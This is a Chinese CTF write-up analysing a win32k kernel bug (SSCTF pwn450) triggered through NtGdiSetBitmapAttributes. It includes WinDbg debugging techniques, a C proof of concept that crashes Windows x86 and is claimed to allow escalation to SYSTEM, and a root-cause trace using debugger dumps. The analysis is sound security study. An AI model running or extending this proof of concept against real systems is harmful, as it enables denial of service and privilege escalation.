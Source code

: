 #  SSCTF-pwn450 win kernel 漏洞分析 （三）   
原创 3bytes  3072   2024-01-03 22:40  
  
#### 一 前言  
  
之前没有调试过内核的漏洞，以这道题目来入个门，发现其实除了一些内核结构体之外和用户态的分析也没有太大的区别，顺便在这里总结一种很方便的在内核态调试用户态程序的方法  
#### 二 内核态和用户态调试丝滑转换  
  
双机调试这里就不介绍了，设置个串口就行了，下面讲讲让windbg在用户态和内核态丝滑转换  
  
1 在虚拟机中创建下面的bat脚本  
```
"C:\Program Files\Debugging Tools for Windows (x86)\ntsd.exe"  -ddefer -y C:\Users\root\Desktop\SSCTFpwn450.pdb C:\Users\root\Desktop\SSCTFpwn450.exe
```  
  
在虚拟机上使用ntsd.exe 将dbg shell重定向到外部的windbg上，在主机的windbg已经挂在虚拟机上的情况下，运行上面的bat脚本会让外部的windbg 从内核态变成用户态  
  
2 通过 .sleep 7000 + ctrl break 命令让windbg从用户态进入内核态  
  
3 在内核态下断点 （注意，无法用kd对用户态的代码下断点，只能是内核态）  
  
4 通过g命令来运行到用户态，如果断点在进入用户态之前被断下直接不用管，因为此时你用户态的应用程序都没完全跑起来肯定不是你要的进程，在用户态继续g，会运行到该应用程序对应的内核调用，可以用kb和!process命令辅助查看程序断下时是否是预期的调用栈，不是继续g就行  
  
另外有些时候windbg断在了内核的其他进程中（按照上面的方法是不会的），这个时候就要用侵入式调试在目标进程下断点，方法如下  
  
1 !process 0 0 目标进程名 获取目标进程EPROCESS基本信息  
  
2 .process /p +EPROCESS信息 切换到目标进程空间  
  
3 .reload /f /user 强制重新加载用户态符号  
  
4 .process /i /p 目标进程的EPROCESS 侵入式调试  
  
5 ba 目标API 执行下断点命令  
#### 三 POC 分析  
```
/**
* Author: bee13oy of CloverSec Labs
* BSoD on Windows 7 SP1 x86 / Windows 10 x86
* EoP to SYSTEM on Windows 7 SP1 x86
**/

#include <Windows.h>

#pragma comment(lib, "gdi32.lib")
#pragma comment(lib, "user32.lib")

unsigned int demo_CreateBitmapIndirect(void) {
    static BITMAP bitmap = { 0, 8, 8, 2, 1, 1 };
    static BYTE bits[8][2] = { 0xFF, 0, 0x0C, 0, 0x0C, 0, 0x0C, 0,
        0xFF, 0, 0xC0, 0, 0xC0, 0, 0xC0, 0 };

    bitmap.bmBits = bits;

    SetLastError(NO_ERROR);

    HBITMAP hBitmap = CreateBitmapIndirect(&bitmap);

    return (unsigned int)hBitmap;
}

#define eSyscall_NtGdiSetBitmapAttributes 0x1110

W32KAPI HBITMAP NTAPI NtGdiSetBitmapAttributes(
    HBITMAP argv0,
    DWORD argv1
    )
{
    __asm
    {
        push argv1;
        push argv0;
        push 0x00;
        mov eax, eSyscall_NtGdiSetBitmapAttributes;
        mov edx, addr_kifastsystemcall;
        call edx;
        add esp, 0x0c;
    }
}

void Trigger_BSoDPoc() {
    HBITMAP hBitmap1 = (HBITMAP)demo_CreateBitmapIndirect();
    HBITMAP hBitmap2 = (HBITMAP)NtGdiSetBitmapAttributes((HBITMAP)hBitmap1, (DWORD)0x8f9);

    RECT rect = { 0 };
    rect.left = 0x368c;
    rect.top = 0x400000;
    HRGN hRgn = (HRGN)CreateRectRgnIndirect(&rect);

    HDC hdc = (HDC)CreateCompatibleDC((HDC)0x0);
    SelectObject((HDC)hdc, (HGDIOBJ)hBitmap2);

    HBRUSH hBrush = (HBRUSH)CreateSolidBrush((COLORREF)0x00edfc13);

    FillRgn((HDC)hdc, (HRGN)hRgn, (HBRUSH)hBrush);
}

int _tmain(int argc, _TCHAR* argv[])
{
    Trigger_BSoDPoc();
    return 0;
}
```  
  
代码比较简单就是创建bitmap，然后调用NtGdiSetbitmapAttributes系统调用,之后便是创建DC，BRUSH，RGN等对象。但实际上POC中的只有bitmap数组后两位值，以及setbitmapattribute的第二个参数会影响内核是否会触发crash  
#### 四 调试分析  
  
漏洞触发的直接原因是SURFOBJ + C 没有正确初始化  
```
kd> g
Breakpoint 0 hit
win32k!EngPaint:
9aacb697 8bff            mov     edi,edi
kd> kb
 # ChildEBP RetAddr  Args to Child              
00 90b37a54 9aacbb9d fe723018 90b37a7c 90b37af8 win32k!EngPaint
01 90b37c20 83e411ea 00000000 ffbff968 0510021b win32k!NtGdiFillRgn+0x339
02 90b37c20 776370b4 00000000 ffbff968 0510021b nt!KiFastCallEntry+0x12a

BOOL __stdcall EngPaint(SURFOBJ *pso, CLIPOBJ *pco, BRUSHOBJ *pbo, POINTL *pptlBrushOrg, MIX mix)

根据栈帧和函数调用可以发现 fe723018 位置就是 SURFOBJ 对象

kd> g
Breakpoint 1 hit
win32k!bGetRealizedBrush:
9a9d0528 8bff            mov     edi,edi
kd> kb
 # ChildEBP RetAddr  Args to Child              
00 90b379a0 9a9d34af fd4d4d98 90b37af8 9a9cd5a0 win32k!bGetRealizedBrush
01 90b379b8 9aa49b5e 90b37af8 00000001 90b37a7c win32k!pvGetEngRbrush+0x1f


kd> dd 90b37af8
90b37af8  ffffffff 00000000 00000000 00edfc13
90b37b08  00edfc13 00000000 00000006 00000004
90b37b18  00000000 00ffffff fe4dd0a4 00000000
90b37b28  00000000 fe723008 ffbff968 ffbffe68
90b37b38  ffbbd540 00000006 fd4d4d98 00000014
90b37b48  000000af 00000001 00000000 00000000
90b37b58  90b37b70 9aa523eb 00000400 0000021b
90b37b68  90b37c10 c03bbf00 00000000 00000000

90b37af8 + 34h = fe723008

kd> dd fe723008
fe723008  04850220 00000001 80000000 876b1a70
fe723018  00000000 04850220 00000000 00000000
fe723028  00000008 00000008 00000020 fe72315c
fe723038  fe72315c 00000004 000016c5 00000001
fe723048  02010000 00000000 04000000 00000000
fe723058  ffbff968 00000000 00000000 00000000
fe723068  00000000 00000000 00000001 00000000
fe723078  00000000 00000000 00000000 00000000

fe723008 + 1ch = 0


fe723018 位置就是 SURFOBJ 结构体 

fe723008 + 1ch 实际上就是 SURFOBJ + c 

kd> g
Access violation - code c0000005 (!!! second chance !!!)
win32k!bGetRealizedBrush+0x38:
9a9d0560 f6402401        test    byte ptr [eax+24h],1
kd> kb
 # ChildEBP RetAddr  Args to Child              
00 90b379a0 9a9d34af 00000000 00000000 9a9cd5a0 win32k!bGetRealizedBrush+0x38
01 90b379b8 9aa49b5e 90b37af8 00000001 90b37a7c win32k!pvGetEngRbrush+0x1f
02 90b37a1c 9aacb6e8 fe723018 00000000 00000000 win32k!EngBitBlt+0x337
03 90b37a54 9aacbb9d fe723018 90b37a7c 90b37af8 win32k!EngPaint+0x51
04 90b37c20 83e411ea 00000000 ffbff968 0510021b win32k!NtGdiFillRgn+0x339


838aba40 8b99f8010000    mov     ebx,dword ptr [ecx+1F8h]


838abb98 e8fafaffff      call    win32k!EngPaint (838ab697)
```  
  
而SURFOBJ + C 没有正确初始化的直接原因是setbitmapattribute函数中bStockSurface的if条件不通过，从而不对该字段进行赋值  
```
 if ( v4 != (HDEV)SURFACE::pdibDefault )
        {
          INC_SHARE_REF_CNT(v4);
          ++*((_DWORD *)v4 + 0x1A);
          if ( !SURFACE::bStockSurface((SURFACE *)v4) )
          {
            v4[25] = *(_DWORD *)(HDEV)v15[0];
            v4[7] = *(_DWORD *)((char *)v15[0] + 0x24); // 对SURFOBJ + C 赋值
          }
        }
```  
  
为了通过setbitmapattribute bStockSurface以及createbitmap中的createDIB等函数的前置条件，因此必须设置POC中bitmap的后两位为1 1，且 setbitmapattribute 的第二个参数 & 1时不为0。其他条件都不会触发该漏洞  
```
    v19 = v6;
    if ( *((_DWORD *)v15[0] + 5) != 1
    || *((_DWORD *)v4 + 26) && !SURFACE::bStockSurface((SURFACE *)v4) && *((_DWORD *)v4 + 25) != *(_DWORD *)v5
    || !bIsCompatible((struct PALETTE **)&a1, *((struct PALETTE **)v4 + 20), (struct SURFACE *)v4, v19, 1) ) // bIsCompatible检查不通过
    {
    goto LABEL_62;
    }
```  
  
  
